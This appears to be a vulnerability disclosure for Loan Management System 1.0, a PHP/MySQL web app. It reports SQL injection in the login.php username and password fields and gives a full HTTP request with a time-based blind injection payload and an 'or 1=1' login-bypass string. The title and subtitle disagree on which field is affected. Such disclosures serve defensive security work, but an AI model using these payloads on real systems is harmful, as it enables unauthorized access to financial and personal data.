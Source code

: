 # Loan Management System - login.php 'password' SQL inject

#### Exploit Title: Loan Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "login.php/username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.31.35:8091
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8091/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

username=admin'union select 1,sleep(10),3,4,5#&password=admin&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sourcecodesql.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sleep10.png)

4、We can also use the universal account and password to log in to the system

payload:`username=123'or '1'='1' --+&password=admin&login=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/universalaccount.png)

SQL injection also exists in the "password" field, so I won't describe it in detail here.

